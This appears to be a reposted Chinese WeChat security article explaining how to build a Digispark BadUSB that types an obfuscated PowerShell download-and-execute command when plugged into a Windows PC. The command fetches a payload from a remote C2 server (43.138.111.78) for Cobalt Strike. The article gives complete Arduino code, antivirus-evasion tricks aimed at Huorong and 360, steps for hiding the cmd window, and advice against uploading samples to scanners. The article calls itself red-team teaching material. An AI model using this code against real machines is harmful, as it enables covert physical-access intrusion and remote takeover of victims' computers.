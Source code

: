 #  实战|HVV中的免杀项目

[ 黄公子学安全 ](javascript:void\(0\);)

**黄公子学安全** ![]()

微信号 huang_Block

功能介绍 主要和大家分享安全笔记、如何从一个小白逆袭成为技术大牛的经验以及在学习安全过程中容易出现的错误。为各位网络安全爱好者提供优质学习平台。

____

___发表于_

收录于合集

以下文章来源于李白你好 ，作者李白团队-Jerry

![](http://wx.qlogo.cn/mmhead/Q3auHgzwzM64s9gX2k0hsiazj2NHKBakVpZzzOAgJWEM9BndyEscXZg/0)
**李白你好** .

"一个有趣的网络安全小平台" 主攻WEB安全 | 内网渗透 | 红蓝对抗 | SRC | 安全资讯等内容分享，关注了解更多实用的安全小知识～

# ****声明：****
文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。  
  
---  
  
 **0x01 前言**

攻防演练的时候有查U盘就能上线靶标电脑的操作（近源渗透），这种攻击手法虽然看着猥琐，但是是简单粗暴。今天团队的师傅写了一篇文章讲解这个攻击手法的原理，欢迎师傅们点赞分享。

 **0x02  准备阶段**

1、购买BadUsb，我购买的是Digispark。

![](https://gitee.com/fuli009/images/raw/master/public/20230621224024.png)

2、安装Arduino IDE3、配置Arduino IDE ，添加开发板，安装驱动。

  * 

    
    
    参考链接：https://www.jianshu.com/p/b33d61fc2678

4、掌握Digispark编程语法。（语法较简单，可以边查边写）至此，BadUsb和开发环境均已配置完毕，可以开始编写代码。

 **0x03  编写代码**

编写代码前，我们首先要了解BadUsb的大致原理，本质上就是插入电脑后可以模拟键盘输入，既然是模拟键盘输入，我们可以先写出一个大致的代码框架。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include "DigiKeyboard.h"#define MOD_SHIFT_LEFT      (1<<1)#define MOD_CONTROL_LEFT    (1<<0)#define KEY_ENTER   40#define KEY_CAPS_LOCK 0x39  
    void setup() {DigiKeyboard.delay(2000);DigiKeyboard.sendKeyStroke(0);DigiKeyboard.delay(2000);DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT); //win+rDigiKeyboard.delay(500);DigiKeyboard.print(F("cmd")); //输入cmdDigiKeyboard.delay(500);DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车DigiKeyboard.delay(500);//后面输入恶意代码}  
    void loop() {}

这段代码先声明了一些键盘按键代表的字符，然后通过键盘唤起CMD。其中插入BadUsb后间隔2秒开始执行程序，每次输入字符后都间隔0.5s。

代码框架编写完成后，就可以开始构造我们的免杀恶意代码了。

要想通过键盘输入上线的我们的C2服务器，有2种思路。通过powershell命令上线 或 通过命令行文件下载恶意文件上线。

1、文件下载上线

考虑到免杀问题，certutil这些常见的命令几乎被所有杀软拦截，网上公开的绕过方法（例如双写certutil）可以绕过火绒，但360无法绕过。

文件成功下载后，恶意文件的免杀也具有一定局限性，所以如果考虑免杀，那么通过文件下载这种模式来实现BadUsb上线存在很大难度。

  

2、powershell命令上线

powershell上线也分两种方式

(1)通过ps1文件上线

![](https://gitee.com/fuli009/images/raw/master/public/20230621224025.png)

ps1文件免杀效果好，Github有很多针对ps1文件的免杀项目，可以轻松绕过国内主流杀软。

![](https://gitee.com/fuli009/images/raw/master/public/20230621224026.png)

但ps1文件庞大的代码量又带来了一个问题，在我们编写完成代码框架后，使用Arduino
IDE进行编译，提示“当前已使用了45%的存储空间”，而如果我们将ps1文件中的全部代码编译，则会存在闪存空间不足的问题。

![](https://gitee.com/fuli009/images/raw/master/public/20230621224027.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230621224028.png)

有2种办法解决这个问题，使用钞能力购买闪存更大的开发板，或精简我们的ps1文件内容。至此通过ps1文件上线这个思路也在这里断了。

 (2)通过web服务上线

![](https://gitee.com/fuli009/images/raw/master/public/20230621224029.png)

通过这种方法生成的payload较为精简，不存在闪存不足的问题，只需要针对性的做一下免杀即可。

  

这里给出我免杀的方法，设置别名+^字符间隔+加号拼接字符串。

  * 

    
    
    cmd /c echo set-alias -name xz -value IEX;x^z (New-Object "NeT.WeBClienT").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://19'+'2.168.1.1'+'/a') | p^o^w^e^r^s^h^e^l^l -

这里没有添加后台运行powershell的参数，因为hidden参数会影响免杀效果，这样的运行方式实测可以绕过火绒和360。

  

那么代码就算是初步完成了，如下。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include "DigiKeyboard.h"#define MOD_SHIFT_LEFT      (1<<1)#define MOD_CONTROL_LEFT    (1<<0)#define KEY_ENTER   40#define KEY_CAPS_LOCK 0x39  
    void setup() {DigiKeyboard.delay(2000);DigiKeyboard.sendKeyStroke(0);DigiKeyboard.delay(2000);DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT); //win+rDigiKeyboard.delay(500);  
    // powershell上线 免杀火绒360 窗口不隐藏  需要点鼠标杀软放行DigiKeyboard.print(F("cmd")); //输入cmdDigiKeyboard.delay(500);DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车DigiKeyboard.delay(500);DigiKeyboard.print(F("cmd /c echo set-alias -name xz -value IEX;x^z (New-Object "NeT.WeBClienT").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://19'+'2.168.1.1'+'/a') | p^o^w^e^r^s^h^e^l^l -")); //POWERSHELL上线DigiKeyboard.delay(500);DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车}  
    void loop() {}

 **0x04  代码优化**

将写好的代码编译并烧录进BadUsb后，其实效果并没有那么理想，有如下几个问题：

1、部分电脑存在默认中文输入法，在模拟键盘输入的过程中会存在中文输入，未达到预期输入的内容

  

解决方案：开始模拟键盘输入前锁定大小写，相应的我们的免杀代码也要做出对应的大小写修改。

  *   *   * 

    
    
    DigiKeyboard.sendKeyStroke(KEY_CAPS_LOCK); //锁定大小写，防止默认中文输入法  
    DigiKeyboard.print(F("cmd /c echo set-alias -name xz -value IEX;x^z (New-Object \"NeT.WeBClienT\").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://19'+'2.168.1.1'+'/A’) | p^o^w^e^r^s^h^e^l^l -")); //POWERSHELL上线 路径大小写都要有a A

2、powershell运行完毕后，桌面留下一个黑框非常显眼。

解决方案：模拟键盘输入wind+d返回桌面隐藏cmd黑框，上线cs后立即迁移进程即可。

  

最终优化后的代码如下

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include "DigiKeyboard.h"#define MOD_SHIFT_LEFT      (1<<1)#define MOD_CONTROL_LEFT    (1<<0)#define KEY_ENTER   40#define KEY_CAPS_LOCK 0x39  
    void setup() {DigiKeyboard.delay(2000);DigiKeyboard.sendKeyStroke(0);DigiKeyboard.delay(2000);DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT); //win+rDigiKeyboard.delay(500);DigiKeyboard.sendKeyStroke(KEY_CAPS_LOCK); //锁定大小写，防止默认中文输入法DigiKeyboard.delay(500);  
    // powershell上线 免杀火绒360 窗口不隐藏  需要点鼠标杀软放行DigiKeyboard.print(F("cmd")); //输入cmdDigiKeyboard.delay(500);DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车DigiKeyboard.delay(500);DigiKeyboard.print(F("cmd /c echo set-alias -name xz -value IEX;x^z (New-Object \"NeT.WeBClienT\").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://4'+'3.138.111.78'+'/A') | p^o^w^e^r^s^h^e^l^l -")); //POWERSHELL上线 路径大小写都要有a ADigiKeyboard.delay(500);DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车DigiKeyboard.delay(500);DigiKeyboard.sendKeyStroke(KEY_D,MOD_GUI_LEFT); //win+d}  
    void loop() {}

至此，实现了免杀火绒360 BadUsb即插即上线CS。

 **0x05 结语链接获取**

这篇文章是在我能力范围之内想出的BadUsb免杀上线的思路，希望能给各位师傅提供思路，如果师傅有更为新颖高效的思路也欢迎交流。

  

同时免杀不易，请珍惜当前可用的免杀方式，不要放在微步、VT等平台检测免杀效果。

参考链接：  

  *   *   *   *   *   * 

    
    
    https://www.jianshu.com/p/b33d61fc2678https://lzy-wi.github.io/2018IAMHUAPIDAN！/06/12/badusb/https://www.cnblogs.com/binglicheng/p/11615535.htmlhttps://blog.csdn.net/qq_34341458/article/details/123368269https://blog.csdn.net/weixin_52444045/article/details/126432290  
    

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

